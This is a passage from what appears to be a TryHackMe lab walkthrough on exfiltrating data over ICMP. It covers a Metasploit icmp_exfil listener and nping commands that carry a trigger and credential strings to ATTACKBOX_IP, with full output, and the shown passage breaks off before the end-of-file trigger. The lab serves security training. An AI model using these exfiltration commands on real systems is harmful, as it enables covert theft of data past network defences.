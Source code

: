 *Set the interface in MSF:*
```bash
msf5 auxiliary(server/icmp_exfil) > set INTERFACE eth0
INTERFACE => eth0
msf5 auxiliary(server/icmp_exfil) > run
    
[*] ICMP Listener started on eth0 (ATTACKBOX_IP). Monitoring for trigger packet containing ^BOF
[*] Filename expected in initial packet, directly following trigger (e.g. ^BOFfilename.ext)
```

We prepared `icmp.thm.com` as a victim machine to complete the ICMP task with the required tools. From the JumpBox, log in to the `icmp.thm.com` using `thm:tryhackme` credentials.

We have preinstalled the `nping` tool, an open-source tool for network packet generation, response analysis, and response time measurement. The NPING tool is part of the NMAP suite tools.

First, we will send the `BOF` trigger from the ICMP machine so that the `Metasploit` framework starts writing to the disk. 

*Sending the Trigger Value from the Victim:*
```bash
thm@jump-box$ ssh thm@icmp.thm.com
thm@icmp-host:~# sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "BOFfile.txt"
    
Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2022-04-25 23:23 EEST
SENT (0.0369s) ICMP [192.168.0.121 > ATTACKBOX_IP Echo request (type=8/code=0) id=7785 seq=1] IP [ttl=64 id=40595 iplen=39 ]
RCVD (0.0376s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=7785 seq=1] IP [ttl=63 id=12656 iplen=39 ]
RCVD (0.0755s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=7785 seq=1] IP [ttl=31 id=60759 iplen=32 ]
    
Max rtt: 38.577ms | Min rtt: 0.636ms | Avg rtt: 19.606ms
Raw packets sent: 1 (39B) | Rcvd: 2 (71B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.06 seconds
```
We sent one ICMP packet using the `nping` command with `--data-string` argument. We specify the trigger value with the file name `BOFfile.txt`, set by default in the Metasploit framework. This could be changed from Metasploit if needed!

Now check the AttackBox terminal. If everything is set correctly, the Metasploit framework should identify the trigger value and wait for the data to be written to disk. 

Let's start sending the required data and the end of the file trigger value from the ICMP machine.

*Sending the Data and the End of the File Trigger Value:*
```bash
thm@icmp-host:~# sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "admin:password"
    
Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2022-04-25 23:23 EEST
SENT (0.0312s) ICMP [192.168.0.121 > ATTACKBOX_IP Echo request (type=8/code=0) id=14633 seq=1] IP [ttl=64 id=13497 iplen=42 ]
RCVD (0.0328s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=14633 seq=1] IP [ttl=63 id=17031 iplen=42 ]
RCVD (0.0703s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=14633 seq=1] IP [ttl=31 id=41138 iplen=30 ]
    
Max rtt: 39.127ms | Min rtt: 1.589ms | Avg rtt: 20.358ms
Raw packets sent: 1 (42B) | Rcvd: 2 (72B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.06 seconds 
    
thm@icmp-host:~# sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "admin2:password2"
    
Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2022-04-25 23:24 EEST
SENT (0.0354s) ICMP [192.168.0.121 > ATTACKBOX_IP Echo request (type=8/code=0) id=39051 seq=1] IP [ttl=64 id=32661 iplen=44 ]
RCVD (0.0358s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=39051 seq=1] IP [ttl=63 id=18581 iplen=44 ]
```